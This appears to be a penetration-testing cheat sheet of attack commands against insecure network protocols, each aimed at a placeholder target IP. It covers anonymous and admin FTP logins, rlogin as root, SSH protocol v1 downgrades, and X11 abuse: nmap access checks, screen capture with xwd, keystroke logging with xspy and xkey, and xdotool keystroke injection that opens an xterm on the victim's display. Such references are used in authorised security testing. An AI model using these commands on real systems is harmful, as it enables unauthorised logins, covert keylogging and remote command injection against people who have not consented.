 Insecure Protocols


### FTP access with admin/null credentials

ftp admin@<target IP>
user
admin
pwd

telnet <target IP> 21
user admin
pass
id;
------------------------------------------------------------------------------------------------------

### FTP on non-standard port

ftp <target IP> <port>
------------------------------------------------------------------------------------------------------

### FTP server does not support AUTH command

telnet <target IP> 21
AUTH test
------------------------------------------------------------------------------------------------------

### Rservices

513/tcp
apt-get install rsh-client
rlogin -l root <target IP>
------------------------------------------------------------------------------------------------------

### SSH Protocol v1

nmap -Pn -n -T4 -p22 --script=sshv1 <target IP>

ssh -1 <target IP>
------------------------------------------------------------------------------------------------------

### X11

nmap -Pn -n -T4 -p6000-6010 --script=x11-access <target IP>

xspy <target IP>

OS X
     Screenshot:
     xwd -display <targetIP>:<display> -root -out file.xwd

     View screenshot:
     xwud -in file.xwd

     Key logging:
     xkey <targetIP>:0.0

     xdotool inject:
     Open another Terminal and type:

     export DISPLAY=<ipaddress>:0

     $ xdotool key x t e r m
     $ xdotool key KP_Enter

     Might need to inject 1 char at a time:

     xdotool key x
     xdotool key t
     xdotool key e
     xdotool key r
xdotool key m
